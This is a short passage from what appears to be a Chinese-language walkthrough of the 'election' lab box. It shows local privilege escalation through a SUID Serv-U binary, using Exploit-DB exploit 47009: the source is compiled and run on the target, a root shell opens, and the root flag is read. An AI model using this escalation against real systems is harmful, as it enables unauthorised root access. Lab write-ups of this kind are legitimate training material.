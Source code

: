 发现 suid /usr/local/Serv-U/Serv-U，对应的提权方法：https://www.exploit-db.com/exploits/47009

将 c 源码下载到目标机器，进行编译，执行得到 root 权限：

```
www-data@election:/tmp$ gcc 47009.c -o pe && ./pe
uid=0(root) gid=0(root) groups=0(root),33(www-data)
opening root shell
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)

# cat /root/root.txt
5238feefc4ffe09645d97e9ee49bc3a6
```

此靶场有简单的路径，找到 log 就比较直接，如果用 sql 注入的方法就是饶了一下，最终还的去找 love 的密码。
